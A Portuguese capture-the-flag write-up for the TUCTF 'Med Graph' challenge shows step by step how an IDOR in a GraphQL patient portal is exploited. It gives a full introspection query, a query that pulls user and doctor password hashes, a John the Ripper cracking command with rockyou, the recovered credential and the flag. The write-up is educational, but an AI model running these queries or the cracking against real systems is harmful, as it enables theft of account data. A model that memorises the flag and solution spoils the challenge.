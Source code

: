 # Med Graph

*My startup is launching the next big patient portal, using the hottest new tech! Check it out with our guest account: Demo:TUCTF. We're still in beta, but it's so secure we already have users! Note: This challenge requires no bruteforcing or intense scanning of the application.*

- *Web Exploitation*
- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*

O desafio consiste em um **Insecure Direct Object Reference** ([**IDOR**](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)) no GraphQL. Após acessar o site e se autenticar com as credenciais de visitante fornecidos, é possível identificar uma requisição para um endpoint de GraphQL, passando uma query para obter os dados do usuário.

![Histórico de requisições do Burp Suite mostrando a query do GraphQL](assets/website-requests.png)

Podemos então tentar rodar uma query de introspecção para entender um pouco mais do schema do banco de dados. Utilizei essa do [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection).

```js
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

Após rodar a query de introspecção, podemos pegar o resultado e passar no [GraphQL Visualizer](https://nathanrandal.com/graphql-visualizer/) para obter um resultado visual da relação entre as tabelas. Logo podemos perceber que há o campo `password` para o `PacientType` e `DoctorType`.

![Visualização do schema do GraphQL](assets/graphql-erd.svg)

Podemos então tentar mandar uma query com os campos de senha no usuário e doutor.

```js
{
    userData {
    id
    password
    doctor {
        name
        password
        }
    }
}
```

Como resultado, o servidor nos retorna o hash da senha do usuário atual e do doutor.

```js
{
  "data": {
    "userData": {
      "doctor": {
        "name": "Ivy",
        "password": "e0f109f8bae039c7d27ed30f31985052623349cdcabf2024c2f81b01a8ffaf47"
      },
      "id": 1018,
      "password": "492d99acf39eb7d31f03a7ab0326943b13f47d3c16c907b5e7659e3cc9c5b46f"
    }
  }
}
```

O hash é um `SHA-256`, podemos utilizar o [`John the Ripper`](https://www.openwall.com/john/) com a wordlist do `rockyou.txt` para achar a senha do doutor.

```bash
echo "e0f109f8bae039c7d27ed30f31985052623349cdcabf2024c2f81b01a8ffaf47" > password.txt
john password.txt -w usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-SHA256
```

Obtemos que a senha é `madjac`. Assim podemos logar com a conta `Ivy:madjac`, obtendo a flag.

```
TUCTF{w3_7h1nk_1n_6r4ph5}
```

![Dashboard após o login como doutor, assim obtendo a flag](assets/flag.png)